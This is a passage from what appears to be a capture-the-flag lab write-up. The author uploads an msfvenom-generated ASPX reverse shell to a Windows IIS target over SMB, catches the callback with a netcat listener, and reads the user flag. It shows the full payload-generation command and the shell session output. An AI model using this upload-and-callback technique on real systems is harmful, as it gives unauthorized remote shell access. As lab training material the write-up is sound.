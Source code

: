 * I uploaded a test text file and was able to view the contents in my web browser.
* I configured the `ptm-reverse-shell.php` file with my attacking machine IP and port information. 
* I started a netcat listener.
* I pointed my web browser at the uploaded file and waited for my shell. 
* Nothing happened.

I had to do some additonal research why the `PHP` script didn't work. As it's a Windows machine, it may simply not have a php server active. I used `msfvenom` to create another reverse shell version as an `aspx` file. Using that version I got a call-back from the target machine. 

```bash 
root@ip-10-10-122-233:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.122.233 LPORT=1234 -f aspx > rev-shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3394 bytes
```

In the `smbclient` terminal I uploaded the new reverse shell. Accessed the file in my browser and...

```bash
root@ip-10-10-122-233:~# nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.174.191 49858 received!
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Running `whoami` shows that I am operating as the `iis apppool\defaultapppool` user. I can now move about the file system. Navigating to the `Users` directory shows that there are a couple of users: Bob and Administrator.  I can't access the administrator's `home` directory, but I can access Bob's. Navigating to Bob's `Desktop` directory and I find the user flag file. 

```bash 
c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  21,057,409,024 bytes free

c:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fd[REDACTED]45}
c:\Users\Bob\Desktop>

```
